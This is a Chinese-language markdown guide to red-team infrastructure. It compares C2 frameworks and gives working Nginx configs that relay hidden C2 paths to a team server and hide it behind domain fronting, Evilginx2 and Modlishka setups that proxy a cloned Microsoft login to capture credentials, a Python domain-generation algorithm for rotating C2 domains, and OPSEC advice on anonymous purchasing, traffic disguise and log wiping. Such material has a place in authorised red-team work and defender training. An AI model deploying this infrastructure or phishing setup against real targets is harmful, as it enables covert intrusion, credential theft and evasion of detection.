

# 红队基础设施

> 红队基础设施是支撑安全评估的骨架——C2 服务器、钓鱼平台、域前置、出口节点。

---

## 基础设施架构



## C2 框架对比

| 框架 | 价格 | 隐蔽性 | 插件生态 | 学习曲线 |
|------|------|--------|---------|---------|
| Cobalt Strike | 💰💰💰 | 高 | 极丰富 | 中 |
| Sliver | 免费 | 高 | 丰富 | 中 |
| Mythic | 免费 | 高 | 丰富 | 中~高 |
| Havoc | 免费 | 中~高 | 中 | 低~中 |
| Brute Ratel | 💰💰💰💰 | 很高 | 有限 | 高 |
| Nighthawk | 💰💰💰💰💰 | 极高 | 有限 | 高 |

## C2 Redirector 配置

```nginx
# Nginx redirector → C2 Team Server
server {
    listen 443 ssl http2;
    server_name cdn-updates.example.com;
    
    ssl_certificate /etc/letsencrypt/live/cdn-updates/fullchain.pem;
    ssl_certificate_key /etc/letsencrypt/live/cdn-updates/privkey.pem;
    
    location / {
        # 仅允许特定 User-Agent 访问 C2
        if ($http_user_agent !~ "Mozilla/5.0 \(Windows NT 10.0; Win64; x64\)") {
            return 403 "Not Found";
        }
        
        # 正常站点响应（掩饰）
        proxy_pass http://127.0.0.1:8080;  # 真实的正常站点
        
        # C2 特定路径
        location /api/v2/updates {
            proxy_pass https://TEAM_SERVER:443;
            proxy_set_header Host $host;
            proxy_ssl_verify off;
        }
        
        location /static/js/main.js {
            proxy_pass https://TEAM_SERVER:443;
            proxy_set_header Host $host;
        }
    }
}
```

## 域前置（Domain Fronting）

```nginx
# Cloudflare/CloudFront 域前置
# 利用 CDN 的路由机制隐藏真实 C2

# 客户端请求:
# HTTP Host: cloudflare.com          # 前端域名
# SNI:     cloudfront.net            # TLS SNI（CDN入口）
# URL:     https://cdn-front.com/c2  # 实际路由到 C2

# Nginx 侧配置
server {
    listen 443 ssl;
    server_name cdn-front.com;
    
    location /c2 {
        # 检查自定义请求头验证
        if ($http_x_redirector_key != "my-secret-key") {
            return 404;
        }
        proxy_pass https://REAL_C2_SERVER;
    }
}
```

## 钓鱼基础设施

### Evilginx2（代理钓鱼）

```bash
# 安装
git clone https://github.com/kgretzky/evilginx2
cd evilginx2
make

# 配置
# 需要域名 + VPS（指向钓鱼服务器的 A 记录）
./evilginx2 -p phishlets/

# 配置钓鱼页面（克隆 login.microsoft.com）
config domain phish-domain.com
config ip 1.2.3.4
phishlets hostname oauth phish-domain.com
phishlets geturl oauth

# 生成钓鱼链接给目标
# https://login.phish-domain.com/ （实际显示为 Microsoft 登录）
```

### Modlishka（反向代理钓鱼）

```yaml
# 配置: config.json
{
    "proxyDomain": "phish-domain.com",
    "targetDomain": "login.target.com",
    "targetResources": [".*"],
    "listeningIP": "0.0.0.0",
    "port": 443,
    "sslCert": "/path/to/cert.pem",
    "sslKey": "/path/to/key.pem",
    "trackingParam": "token",
    "trackingCookie": "session"
}
```

## 域生成算法（DGA）

```python
# DGA 用于 C2 域名的快速轮换
import hashlib
import datetime

def generate_c2_domains(seed, date=None):
    """生成当日 C2 域名列表"""
    if date is None:
        date = datetime.date.today()
    
    domains = []
    base = f"{seed}-{date.year}{date.month:02d}{date.day:02d}"
    
    for i in range(10):  # 每天生成 10 个备用域名
        h = hashlib.sha256(f"{base}-{i}".encode()).hexdigest()
        # 截取前 12 个字符作为域名前缀
        prefix = h[:12].lower()
        # 随机选择 TLD
        tlds = ['.com', '.net', '.org', '.xyz', '.top']
        tld = tlds[int(h[12], 16) % len(tlds)]
        domains.append(f"{prefix}{tld}")
    
    return domains

# 客户端和 C2 端都运行相同的算法
# 每天尝试连接所有生成的域名，已注册的即为有效 C2
```

## 基础设施 OPSEC

### 购买原则
```
✅ 使用加密货币购买 VPS/域名
✅ 不同 C2 使用不同提供商
✅ 域名 WHOIS 隐私保护
✅ 域名注册与 C2 托管在不同国家
✅ 避免使用相同 IP/AS 关联多个项目
```

### 流量特征规避
```
C2 流量伪装:
  HTTP/S 协议:
    - 模拟正常 API 请求（JWT Token 头）
    - 使用合法 DNS 查询作为 C2
    - 响应内容填充随机 HTML 掩饰
  DNS 隧道:
    - 解析频率模拟正常 DNS
    - 请求间加入随机延迟
    
  证书:
    - 使用 Let's Encrypt（免费、信任度高）
    - 设置自动化续期
```

### 基础设施清理清单
```
[ ] 释放并销毁所有 VPS
[ ] 删除域名 DNS 记录
[ ] 关闭/删除域名注册
[ ] 删除 CDN/CloudFront 分配
[ ] 销毁 SSH 密钥
[ ] 清理日志文件（本地+远程）
[ ] 撤销所有数字证书
```

*下一篇：[C2 框架与基础设施](02-c2-framework.md)*
